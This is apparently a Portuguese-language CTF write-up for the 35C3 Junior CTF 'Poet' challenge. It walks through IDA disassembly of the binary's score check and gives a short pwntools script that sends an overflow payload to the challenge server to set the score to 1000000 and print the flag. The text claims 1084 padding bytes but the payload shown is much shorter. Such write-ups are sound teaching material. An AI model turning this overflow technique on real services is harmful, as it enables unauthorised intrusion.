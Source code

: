 ## [35C3CTF](https://ctftime.org/event/718)
### Nome: [Poet](https://35c3ctf.ccc.ac/uploads/juniorctf/poet-724c1a07d5cf958381856c332e9019d57b5d51bf.zip)
#### Dificuldade: Muito fácil
**Descrição**: 
*We are looking for the  poe  of the year:* `nc 35.207.132.47 22223`
## Levantamento de informações
Ao baixarmos e extrairmos o arquivo zip, obtemos o arquivo Poet:
                                                                                                                                                                            
    C:\Users\ecarlosn\Desktop\poetwu                                                                                                                                        
    > File poet                                                                                                                                                             
    poet: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=145cad36473cb
    96072142f67bbde20e991c5a4b7, not stripped                                                                                                                               
*Antes de qualquer ação, vejamos o que o executável faz.*

    **********************************************************
    * We are searching for the poet of the year 2018.        *
    * Submit your one line poem now to win an amazing prize! *
    **********************************************************
    Enter the poem here:
    > happy new year
    Who is the author of this poem?
    > deadlock
    
    +---------------------------------------------------------------------------+
    THE POEM
    happy new year
    SCORED 0 POINTS.
    
    SORRY, THIS POEM IS JUST NOT GOOD ENOUGH.
    YOU MUST SCORE EXACTLY 1000000 POINTS.
    TRY AGAIN!
    +---------------------------------------------------------------------------+

**"SORRY, THIS POEM IS JUST NOT GOOD ENOUGH.
    YOU MUST SCORE EXACTLY 1000000 POINTS.
    TRY AGAIN!"**
    *A mensagem exibida diz que precisamos pontuar exatamente **1000000**. Hora de analisar o executável.*

## Solução
 Para a análise em questão, foi utilizado o [IDA](https://www.hex-rays.com/products/ida/support/download_freeware.shtml).

![IDA screenshot](https://i.imgur.com/XookLxm.png)

*No endereço **00000000004009D3** é possível vizualizar uma chamada à função **rate_poem( )**. Hora de analizar esta função.*

    .text:000000000040080C loc_40080C:                             ; CODE XREF: rate_poem+8B↓j
    .text:000000000040080C                                         ; rate_poem+A2↓j ...
    .text:000000000040080C                 add     cs:dword_6024E0, 64h
    .text:0000000000400813
    .text:0000000000400813 loc_400813:                             ; CODE XREF: rate_poem+147↓j
    .text:0000000000400813                 lea     rsi, delim      ; " \n"
    .text:000000000040081A                 mov     edi, 0          ; s
    .text:000000000040081F                 call    _strtok
    .text:0000000000400824                 test    rax, rax
    .text:0000000000400827                 jz      loc_400909
    .text:000000000040082D
    .text:000000000040082D loc_40082D:                             ; CODE XREF: rate_poem+53↑j
    .text:000000000040082D                 mov     ecx, 5
    .text:0000000000400832                 mov     rsi, rax
    .text:0000000000400835                 mov     rdi, rbx
    .text:0000000000400838                 repe cmpsb
    .text:000000000040083A                 setnbe  dl
    .text:000000000040083D                 sbb     dl, 0
    .text:0000000000400840                 test    dl, dl
    .text:0000000000400842                 jz      short loc_40080C
    .text:0000000000400844                 mov     ecx, 4
    ...
    ...
    ...
    .text:0000000000400889                 mov     ecx, 7
    .text:000000000040088E                 lea     rdi, aRepeat    ; "repeat"
    ...
    ...
    .text:00000000004008A0                 test    dl, dl
    .text:00000000004008A2                 jz      loc_40080C
    .text:00000000004008A8                 mov     ecx, 4
    .text:00000000004008AD                 lea     rdi, aCtf       ; "CTF"
    .text:00000000004008B4                 mov     rsi, rax
    .text:00000000004008B7                 repe cmpsb
    .text:00000000004008B9                 setnbe  dl
    .text:00000000004008BC                 sbb     dl, 0
    .text:00000000004008BF                 test    dl, dl
    .text:00000000004008C1                 jz      loc_40080C
    .text:00000000004008C7                 mov     ecx, 8
    .text:00000000004008CC                 lea     rdi, aCapture   ; "capture"
    .text:00000000004008D3                 mov     rsi, rax
    ...
    ...
    .text:00000000004008DE                 test    dl, dl
    .text:00000000004008E0                 jz      loc_40080C
    .text:00000000004008E6                 mov     ecx, 5
    .text:00000000004008EB                 lea     rdi, aFlag      ; "flag"
    ...
    ...
    .text:00000000004008FC                 test    al, al
    .text:00000000004008FE                 jnz     loc_400813
    .text:0000000000400904                 jmp     loc_40080C
    .text:0000000000400909 ; ---------------------------------------------------------------------------
*A função nos retorna uma série de comparações com palavras específicas (**flag, pwn, CTF, capture**...).
Apesar das palavras da função nos retornarem pontos acima de Zero:*

    Enter the poem here:
    > flag
    Who is the author of this poem?
    > pwn
    +--------------------------------------------
    THE POEM
    flag
    SCORED 100 POINTS.
    
    SORRY, THIS POEM IS JUST NOT GOOD ENOUGH.
    YOU MUST SCORE EXACTLY 1000000 POINTS.
    TRY AGAIN!
*Após algumas análises, percebe-se que são irrelevantes para nossa resolução.*
*Voltando à função main, pode-se ver uma outra comparação no endereço **00000000004009D8**:*
![IDA screenshot](https://i.imgur.com/N7L3rSF.png)

*A comparação feita acima verifica se [rbx+440h] é igual à f4240h. Caso essa condição seja verdadeira,  você recebe o resultado da chamada( **flag** ), caso contrário, recebemos a mensagem de erro "**\nSORRY, THIS POEM....*** .

*o **H** no final da sequência de letras e números nos indica que os valores estão em [Hexadecimal](https://pt.wikipedia.org/wiki/Sistema_de_numera%C3%A7%C3%A3o_hexadecimal). Usando qualquer método de conversão para base10(**Decimal**), descobrimos que:*

 - 0x440h = 1088 **base10**
 - 0x_f4240h = 1000000 **base10**

 *Ótimo, encontramos a comparação que é feita para validação do poema/autor. Então, precisamos fazer com que  o registrador **rbx + 1088 = 0xf4240**.*
 *Após uma depuração, pode-se perceber que o responsável pelo nosso input está em **[rbx+1088]** Desta forma, podemos montar nosso script.*
 No caso em questão, foi utilizada a lib [pwntools](http://docs.pwntools.com/en/stable/) no [python2.7](https://www.python.org/download/releases/2.7/).

*Sabendo que **rbx** precisa receber **1088** bytes e que o **cmpl** trabalha com os últimos**4 bytes**, enviamos **1084** bytes aleatórios + valor à ser comparado nos últimos .*
   

    from pwn import *
    
    r = remote('35.207.132.47', '22223')   
    print r.recvuntil('Enter the poem here:\n')
    r.sendline('aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa\x40\x42\x0f\x00')
    print r.recvuntil('this poem?\n')
    r.sendline('aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa\x40\x42\x0f\x00')
    print r.recvline()
    print r.recvline()
    print r.recvuntil('POINTS')
    print r.recv(1024)

*No script, enviamos o valor em **Hexadecimal** nos últimos 4 bytes que formam 1088, assim, quando a comparação for feita, teremos que **0x_f4240h == 0x_f4240h** *

 - *As letras aleatórias no script podem ser substituídas por exemplo, por* "A" **1084. Feito desta maneira apenas por questões de entendimento geral.*

*após a execução:*

![enter image description here](https://i.imgur.com/AEo9lHY.png)
-
**FLAG     : **35C3_f08b903f48608a14cbfbf73c08d7bdd731a87d39****

---
## Recomendações para entendimento geral
[x64_cheatsheet.pdf](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf)
[Assembly Control Flow](https://en.wikibooks.org/wiki/X86_Assembly/Control_Flow)
[CMPx86](https://www.felixcloutier.com/x86/cmp)
